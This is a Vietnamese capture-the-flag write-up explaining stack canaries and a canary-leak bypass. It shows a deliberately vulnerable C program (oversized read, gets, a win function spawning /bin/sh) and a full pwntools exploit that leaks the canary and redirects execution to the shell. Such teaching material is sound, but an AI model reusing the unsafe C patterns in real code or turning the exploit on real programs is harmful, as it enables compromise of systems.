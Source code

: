 # Decription

BOF dù rất nguy hiểm nhưng vẫn có 1 số cách để ngăn chặn nó.

Bài này tôi sẽ nói về canary.

# What is canary?

Canary là một cơ chế bảo vệ stack khỏi tấn công Buffer Overflow (BOF).

Khi chương trình chạy, trình biên dịch sẽ chèn một giá trị đặc biệt gọi là stack canary giữa các biến cục bộ và địa chỉ trả về trên stack.

Giá trị này được khởi tạo từ một biến canary toàn cục (global canary) khi chương trình bắt đầu.

Trước khi hàm return, chương trình sẽ so sánh giá trị canary trên stack (local canary) với canary toàn cục.

Nếu 2 giá trị này không khớp nhau, có nghĩa là stack đã bị ghi đè → chương trình kết thúc ngay lập tức (__stack_chk_fail()), nhằm ngăn chặn việc kiểm soát dòng thực thi.

Thường thì giá trị canary là động. Nhưng nó cũng có đặc điểm là bytes cuối cùng luôn là null và luôn nằm gần và trên thanh ghi save rbp.
![](images/canary.png)

# How to bypass canary?

Có rất nhiều cách để bypass canary như leak, bruteforce tùy vào điều kiện của chương trình. Tôi sẽ trình bày 1 cách là leak canary.

# Code

```c
#include<stdio.h>
#include <stdlib.h>
#include <unistd.h>


char *gets(char *);
void win() {
    system("/bin/sh");
}

void vul(){
    char secret[64];
    puts("Gift for u:");
    gets(secret);
}
int main(){
    char buf[64];
    puts("welcome to bof ez !!!");
    puts("Can you get shell");
    read(0,buf,73);
    puts("Oh... I see!");
    puts(buf);
    vul();
    return 0;
}
```

# Solve

Ta có thể thấy rằng buf khai báo 64 bytes nhưng read đến 73 bytes nên có bof.

Do bài có canary nên ta nhập quá sẽ bị stack smashing. Do dó cần leak được canary ra.

Mở gdb và xem.

![](images/read.png)

Canary ở ngay trên rsp. Offset từ buf đến canary là 72.

Trong code ta thấy hàm read đọc vào buf sau đó puts(buf). 

Hàm read sẽ nối liền với dữ liệu đằng sau nó nêu không có bytes null sau nó.

Điều này có nghĩa là puts sẽ in ra buf + dữ liêu sau nó nếu không có bytes null.

Vậy t ghì đè 1 bytes null của canary.

```c
payload = b'a' *73

sa(b'get shell\n', payload)
```

![](images/bug.png)

Ta thấy rằng sau 73 bytes a là 1 chuỗi không in được. Đó là canary. 

Vậy ta cần nhận 7 bytes này sau đó thêm 1 bytes null vào.

```c
p.recv(86)
canary = u64(b'\x00' +p.recv(7))
log.info("Canary: " + hex(canary))
```

![](images/canary.png)

Trong hàm vul ta cũng có bof. Cần tính ofset từ secret đến canary sau đó nhập canary để bypass.

![](images/offset.png)

```c
payload = b'b'*72
payload += p64(canary)
payload += p64(0xdeadbeaf)
payload += p64(exe.sym.win+1)
sla(b'u:\n',payload)
```

![](images/flag.png)

# Full Script
```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* 0x000000000040120a
b* 0x0000000000401229
b* 0x0000000000401257
b* 0x00000000004011d0
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()

payload = b'a' *73

sa(b'get shell\n', payload)
p.recv(86)
canary = u64(b'\x00' +p.recv(7))
log.info("Canary: " + hex(canary))

payload = b'b'*72
payload += p64(canary)
payload += p64(0xdeadbeaf)
payload += p64(exe.sym.win+1)
sla(b'u:\n',payload)
p.interactive()



```

# Flag

CANARY{5o_3a5y_Right}
